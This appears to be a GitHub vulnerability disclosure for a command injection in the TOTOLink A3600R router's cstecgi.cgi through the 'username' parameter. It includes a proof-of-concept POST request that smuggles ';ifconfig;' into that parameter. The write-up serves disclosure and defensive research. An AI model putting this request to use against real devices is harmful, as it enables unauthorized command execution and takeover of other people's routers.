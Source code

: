 # TOTOLink A3600R V4.1.2cu.5182_B20201102 Has an command injection vulnerability

## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ： http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=63&ids=36

### Product Information

TOTOLink A3600R V4.1.2cu.5182_B20201102 router, the latest version of simulation overview：

![Figure 1 Update date of the latest version of the firmware](img/image-20220213010829260.png)

## Vulnerability details

![image-20220718075801786](img/image-20220718075801786.png)

TOTOLINK A3600R was found to contain a command insertion vulnerability in cstecgi.This vulnerability allows an attacker to execute arbitrary commands through the "username" parameter.

![Figure 2 Local of the vulnerability](img/image-20220718075116046.png)

We can see that the operating system will get "username" without filtering and inserting it into the strings "openvpn cert build_user" and "gz". Therefore, if we can control "username", it can be a command injection.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /cgi-bin/cstecgi.cgi?exportOvpn=&type=user&username=;ifconfig;&filetype=gz HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.1/login.html
Content-Length: 0
Origin: http://192.168.0.1
DNT: 1
Connection: close
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Pragma: no-cache
Cache-Control: no-cache
```

![image-20220718070705547](img/image-20220718070705547.png)

![image-20220718070721076](img/image-20220718070721076.png)

 The above figure shows the POC attack effect 

